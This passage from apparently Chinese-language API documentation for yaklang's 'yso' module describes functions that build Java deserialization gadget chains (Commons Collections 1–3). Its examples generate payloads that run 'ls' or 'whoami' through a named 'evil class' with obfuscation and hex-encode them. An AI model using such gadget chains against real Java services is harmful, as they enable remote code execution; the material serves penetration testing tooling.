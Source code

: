 ```yaklang
command := 'ls'
javaObject, err := yso.GetCommonsCollections1JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```

## 24. `yso.GetCommonsCollections2JavaObject`

## 功能描述

基于Commons Collections 4.0 序列化模板生成并返回一个Java对象。用户可以通过提供额外的配置函数定制生成的Java对象的特定属性或行为。

## 参数说明

```
func GetCommonsCollections2JavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```

**请求参数**

- `options` : 用于配置Java对象的可变参数函数列表。

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象。
- `r2` : error，成功时为nil错误，失败时返回相应错误。

## 示例代码

### 基础用法

生成一个Java对象，并指定恶意类的名称为'KEsBXTRS'，使用Runtime Exec方法执行命令。

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetCommonsCollections2JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```

## 25. `yso.GetCommonsCollections3JavaObject`

## 功能描述

基于Commons Collections 3.1 序列化模板生成并返回一个Java对象。用户可以通过提供额外的配置函数定制生成的Java对象的特定属性或行为。
